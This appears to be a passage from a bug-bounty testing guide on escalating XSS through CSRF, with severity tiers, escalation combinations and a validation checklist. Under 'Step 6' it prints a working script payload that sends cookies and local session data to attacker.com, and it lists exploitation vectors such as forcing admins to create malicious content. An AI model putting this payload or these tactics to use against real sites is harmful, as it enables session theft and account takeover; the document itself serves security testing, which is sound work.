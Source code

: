 **Step 6: Advanced Payload Testing**
```javascript
// Test for DOM-based execution timing
<script>
    // Steal session tokens
    fetch('https://attacker.com/collect', {
        method: 'POST',
        body: JSON.stringify({
            'cookies': document.cookie,
            'sessionStorage': localStorage.getItem('session'),
            'origin': window.location.origin
        })
    });
</script>
```

## What Is The Impact

**Critical (High Bounty):**
- Stored XSS affecting multiple users via CSRF
- Session hijacking through forced actions
- Account takeover via malicious group creation

**High (Good Bounty):**
- Self-XSS escalated to affect other users
- One-time execution with significant impact
- Administrative privilege escalation possible

**Medium (Moderate Bounty):**
- Limited XSS execution scope
- CSRF present but minimal impact
- Temporary dialog-based execution only

**Low (Limited Impact):**
- Self-XSS with no escalation vector
- CSRF protection prevents exploitation
- Encoded output prevents execution

### Escalation Success Indicators:
- Self-XSS + No CSRF protection = **HIGH/CRITICAL**
- Dialog XSS + Forced creation = **HIGH**
- Persistent group XSS + CSRF = **CRITICAL**
- Isolated self-XSS = **REJECTED**

### Advanced Exploitation Vectors:
1. **Administrative Panels**: Force admin to create malicious content
2. **Bulk Operations**: CSRF to create multiple XSS vectors
3. **Social Engineering**: Trick users into specific group interactions
4. **Privilege Escalation**: Force creation of admin-accessible content
5. **Data Exfiltration**: XSS payload that steals sensitive information

### Technical Validation Checklist:
- [ ] XSS executes in victim's browser context
- [ ] CSRF bypasses same-origin policy restrictions  
- [ ] Payload persists beyond initial creation
- [ ] Impact affects users other than attacker
- [ ] Exploitation requires minimal user interaction
